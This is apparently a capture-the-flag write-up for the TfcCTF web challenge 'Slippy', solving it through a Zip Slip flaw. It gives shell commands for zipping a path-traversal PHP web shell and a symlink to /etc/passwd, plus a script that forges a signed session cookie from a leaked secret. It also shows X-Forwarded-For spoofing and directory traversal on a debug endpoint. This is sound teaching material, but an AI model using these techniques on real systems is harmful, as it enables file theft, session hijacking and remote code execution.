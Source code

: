 ```yaml
---
title: Slippy
summary: Slipping Jimmy keeps playing with Finger.
tags: [TfcCTF, Web, Zip Slip]
date: 2025-08-31
showtoc: true
---
```


# Slippy

## Description

Slipping Jimmy keeps playing with Finger.

Difficulty: Baby  
Author: Sagi

[Given files](/tfcctf/slippy/web-slippy.zip)

## Solution

The application allows us to upload a zip file.

![index](/tfcctf/slippy/index.png)

Let's start by trying a simple zip file.

```sh
$ echo foo > foo.txt; zip foo.zip foo.txt
```

After uploading it, the web application unzips the file and allows us to download the unzipped files.

![files](/tfcctf/slippy/files.png)

By examining vulnerabilities around unzipping files, I discovered the Zip Slip vulnerability. This vulnerability can allow us to do two things:

- Overwrite arbitrary files: We can create a zip file containing files that use path traversal (e.g., a file named `../index.php`). When unzipped, these files will be written outside the current directory.

```sh
$ echo '<?php echo system("id");?>' > '../index.php'
$ zip payload.zip '../index.php'
```

- Read arbitrary files: If we zip a symlink, and the web application unzips and displays its content, we can read any file on the server.

```sh
$ ln -s /etc/passwd link
$ zip --symlink payload.zip link
```

So I tried uploading a zip file containing a symlink to `/etc/passwd`, and after downloading the unzipped files, I was able to retrieve the `/etc/passwd` file from the server.

After identifying this vulnerability, I looked for the flag in the source code to see if retrieving it would be sufficient to solve the challenge.

However, it wasn't that simple. The flag is stored in a directory with a random name.

```dockerfile
RUN rand_dir="/$(head /dev/urandom | tr -dc a-z0-9 | head -c 8)"; mkdir "$rand_dir" && echo "TFCCTF{Fake_fLag}" > "$rand_dir/flag.txt" && chmod -R +r "$rand_dir"
```

Even though the flag was not directly accessible, I was able to retrieve two other secrets using the Zip Slip vulnerability:

* The secret for generating session cookies:

```sh
SESSION_SECRET=3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b
```

```js
app.use(session({
  secret: process.env.SESSION_SECRET,
  resave: false,
  saveUninitialized: false,
  store: store
}));
```

* The session ID for `develop`:

```js
const sessionData = {
    cookie: {
      path: '/',
      httpOnly: true,
      maxAge: 1000 * 60 * 60 * 48 // 1 hour
    },
    userId: 'develop'
};
store.set('amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E', sessionData, err => {
    if (err) console.error('Failed to create develop session:', err);
    else console.log('Development session created!');
});
```

With these secrets, the next step was to find a way to leak the directory name containing the flag.

While reviewing the source code, I found a debug endpoint.

```js
router.get('/debug/files', developmentOnly, (req, res) => {
    const userDir = path.join(__dirname, '../uploads', req.query.session_id);
    fs.readdir(userDir, (err, files) => {
    if (err) return res.status(500).send('Error reading files');
    res.render('files', { files });
  });
});
```

However, when I tried to access it, I received the following message:

```
Forbidden: Development access only
```

This is due to the `developmentOnly` middleware, which restricts access to this endpoint.

```js
module.exports = function (req, res, next) {
    if (req.session.userId === 'develop' && req.ip == '127.0.0.1') {
      return next();
    }
    res.status(403).send('Forbidden: Development access only');
};
```

In order to access this endpoint, I needed to be authenticated as the `develop` user and have the IP `127.0.0.1`.

I already had the `develop` user ID from earlier, so the next step was to forge a session cookie.

```js
const cookieSignature = require("cookie-signature");
const secret =
  "3df35e5dd772dd98a6feb5475d0459f8e18e08a46f48ec68234173663fca377b";
const sessionId = "amwvsLiDgNHm2XXfoynBUNRA2iWoEH5E";

const signedSessionId = "s:" + cookieSignature.sign(sessionId, secret);
console.log(signedSessionId);
```

I tested if the cookie worked by returning to the homepage, where it displayed the current user ID.

![develop](/tfcctf/slippy/develop.png)

Next, I needed to set my IP to `127.0.0.1`. To bypass this check, I used the `X-Forwarded-For` header and configured Burp Suite to automatically insert `X-Forwarded-For: 127.0.0.1` into each request.

I then tried accessing the debug endpoint again at `/debug/files?session_id=`, and it worked!

![debug\_files](/tfcctf/slippy/debug_files.png)

From the code of the endpoint, I realized that it lists all files and directories in the `uploads/PATH` directory, where `PATH` is the `session_id` query parameter.

So, I tried to use path traversal to leak the random directory containing the flag by accessing `/debug/files?session_id=../../`.

![root](/tfcctf/slippy/root.png)

Now that I had access to the server's file structure, I was able to locate the flag in the directory `/2u9wizpw/flag.txt` using the Zip Slip vulnerability from earlier.

```
TFCCTF{3at_sl1P_h4Ck_r3p3at_5af9f1}
```

# References

- Payloads All The Things: [Zip Slip](https://swisskyrepo.github.io/PayloadsAllTheThings/Zip%20Slip/)
